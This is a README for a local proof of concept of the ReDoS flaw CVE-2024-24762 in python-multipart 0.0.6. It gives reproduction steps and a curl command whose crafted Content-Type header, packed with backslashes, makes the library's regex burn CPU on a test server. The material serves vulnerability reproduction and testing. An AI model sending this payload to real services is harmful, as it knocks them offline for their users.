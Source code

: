 # Proof of Concept

## Brief explanation

We credit the creators of this Proof of Concept, whose work we utilized to
understand the ReDoS and simulate its behaviour with our engine -
[blogpost by 'Smartkeyss'](https://www.vicarius.io/vsociety/posts/redos-in-python-multipart-cve-2024-24762).

The main.py file contains a simple webserver that listens to requests incoming
on port 8123, obtains the header 'Content-Type' and asks python-multipart to
process it. As we know, this endpoint will try to parse the header info
using a flawed regex expression, meaning one can easily exploit it.

## How to trigger the exploit

All commands must be run in the current directory `PoC/`

1. Install the vulnerable multipart version: `pip install python-multipart==0.0.6`
2. Start the webserver `./main.py`
3. On a new terminal, execute the following command:

```
curl -v -X 'POST' -H $'Content-Type: application/x-www-form-urlencoded; !=\"\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\' --data-binary 'input=1' 'http://localhost:8123/'
```

4. Observe the results. Either by checking how long it takes to finish or
use `htop` on a new terminal to see the CPU usage, which will increase
a lot
